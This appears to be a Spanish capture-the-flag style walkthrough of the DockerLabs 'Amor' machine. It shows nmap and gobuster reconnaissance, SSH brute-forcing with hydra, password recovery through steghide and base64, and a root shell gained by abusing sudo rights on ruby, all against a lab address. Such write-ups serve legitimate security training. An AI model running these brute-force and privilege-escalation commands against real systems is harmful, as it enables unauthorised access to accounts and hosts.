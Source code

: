```yaml
---
title: Amor - DockerLabs
published: true
categories: DockerLabs
---
```



| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     | 
| Linux  |  Fácil      | Romabri           | 


# Reconocimiento

Comenzamos el proceso de reconocimiento identificando los puertos abiertos en el sistema objetivo. 
```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG ports 
```
-  `-p-`: Escanea todos los puertos (1-65535).
- `--open`: Solo muestra los puertos abiertos.
- `-sS`: Realiza un escaneo SYN, que es rápido y discreto.
- `--min-rate=5000`: Envía al menos 5000 paquetes por segundo, acelerando el escaneo.
- `-n`: No realiza resolución DNS.
- `-Pn`: No realiza ping previo para determinar si el host está activo.
- `-vvv`: Muestra resultados detallados y en tiempo real.

![image](https://github.com/user-attachments/assets/ece935c3-cfd6-4aa6-8838-e708ea48cb33)


Durante el escaneo, descubrimos que los siguientes puertos están activos:
- `22` (SSH)
- `80` (HTTP)

A continuación, evaluamos si los puertos abiertos presentan alguna vulnerabilidad, además de obtener más información sobre los servicios asociados a esos puertos.

```bash
nmap -p 21,80 -sCV 172.17.0.2 -oG targeted
```
![image](https://github.com/user-attachments/assets/2beb18bf-6011-443b-9a80-5a4ccf098540)

# Exploración Web

La pagina no parece ser muy funcional, parece ser que la pagina contiene como registros de que ocurre en la empresa.

Utilizamos `Gobuster` para realizar un reconocimiento web y explorar los directorios disponibles en el sitio.

```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,doc,html,txt,img
```
- `gobuster dir` - Indica que estás utilizando la herramienta Gobuster para realizar un escaneo de directorios.
- `-u http://172.17.0.2/` Especifica la URL objetivo que deseas escanear en busca de directorios.
- `-w` Especifica que diccionario queremos usar
- `-x` Para indicar que tipo de extension queremos que nos encuentre

![image](https://github.com/user-attachments/assets/72d1c95b-6d7f-458c-8752-be28ea0cf3a0)

Parece ser que la pagina solo contiene la pagina que tenemos delante. Si observamos podemos ver varios usuarios.

![image](https://github.com/user-attachments/assets/46d76278-8af7-4531-82bd-8d2cbe2c8af0)


## Fuerza bruta

Empezaremos haciendo fuerza bruta al usuario carlota por ssh para ello usaremos hydra.

```shell
hydra -l 'carlota' -P /usr/share/wordlists/rockyou.txt  ssh://172.17.0.2 -t 4
```
Hemos encontrado unas credenciales para el usuario carlota 

![image](https://github.com/user-attachments/assets/fe49e702-2120-4f6d-8799-656d13d9ca72)

## Usuario carlota

Ya que hemos obtenido su contraseña accederemos por ssh a su usuario.
```bash
ssh carlota@172.17.0.2  
```
![image](https://github.com/user-attachments/assets/d00f55db-5113-4713-b261-5e458604de32)

Vamos a empezar a ver como podemos escalar , para ello empezamos con `sudo -l` pero parece que no tenemos permisos.
![image](https://github.com/user-attachments/assets/1a08d01e-dcc5-455a-89b5-0ecb12e02dc8)

Vamos a mirar que contiene su directorio , por si tiene algo oculto dentro de el

![image](https://github.com/user-attachments/assets/362e99fa-108f-4c33-8409-8e0e5d88844e)

El directorio `Desktop` el dueño es root y eso es raro ya que tenemos permisos es esa carpeta vamos a ver que contiene.

![image](https://github.com/user-attachments/assets/1cc32588-90bb-4dc6-91d0-6337300631e1)

Tenemos una imagen un poco extraña por lo que nos la pasaremos a nuestro equipo y veremos que contiene.

```bash
scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg .
```
![image](https://github.com/user-attachments/assets/0d70ac83-e6ad-404d-8a3c-9d2ff78dc76e)


## Esteganografía

Vamos a ver si esa imagen contiene algo oculto.

```bash
steghide --extract -sf imagen.jpg
```

Nos pide una contraseña si no ponemos nada , nos descarga un archivo llamado `secret.txt`.

![image](https://github.com/user-attachments/assets/40f71b08-220c-401d-b9f4-04e624a98d87)

![image](https://github.com/user-attachments/assets/ffe4bff3-7d40-4b69-97e7-b36dc9ae37d6)

Al ver que contiene el archivo , por el `=` del final se podria pensar que esta encriptado en `base64`:

![image](https://github.com/user-attachments/assets/e209dc56-1120-4c42-99fb-e512c98cbfeb)

```bash
echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 -d; echo
```

![image](https://github.com/user-attachments/assets/363d2829-23b3-4fa7-a72d-6467af2d9990)

Tenemos una contraseña lo que no sabemos es de que usuario , por lo que veremos que usuarios tenemos desde el usuario carlota.

![image](https://github.com/user-attachments/assets/f2d2615e-8c66-4ee1-be02-c5c29ee4888d)

Ya que tenemos esos tres usuarios los guardamos en `usuarios.txt`.

![image](https://github.com/user-attachments/assets/03a588ce-3ae8-41b3-9372-20a776d59723)

Y ahora con hydra comprobamos si esa contraseña es de algun usuario.

```bash
hydra -L usuarios.txt -p 'eslacasadepinypon' ssh://172.17.0.2 -t 5 
```
![image](https://github.com/user-attachments/assets/305eb2ee-8fd2-4bf7-993a-012674f92b68)

Como podemos ver esa contraseña es del usuario oscar.

## Usuario Oscar

![image](https://github.com/user-attachments/assets/8d71049c-33d7-4b49-9c6b-2d6b5f124a0f)

Ya hemos accedido con el usuario oscar.Ahora vamos a generar una shell
```bash
script /dev/null -c bash
```
![image](https://github.com/user-attachments/assets/cf4e0173-bcfe-42f4-a35d-0c908e1db525)

Si ejecutamos el comando sudo -l, vemos que podemos ejecutar `ruby` como `root`. Si no sabemos como abusar de esto, siempre podemos recurrir a [GTFOBins](https://gtfobins.github.io/).

![image](https://github.com/user-attachments/assets/2e89d1b4-25a0-4f41-9c1c-d650d8b151f3)

Para generar una shell como root debemos de poner lo siguiente:

```bash
sudo ruby -e 'exec "/bin/sh"'
```

Y ya seriamos `root`.

![image](https://github.com/user-attachments/assets/1d779177-ce61-4040-ba08-1729ec52e757)


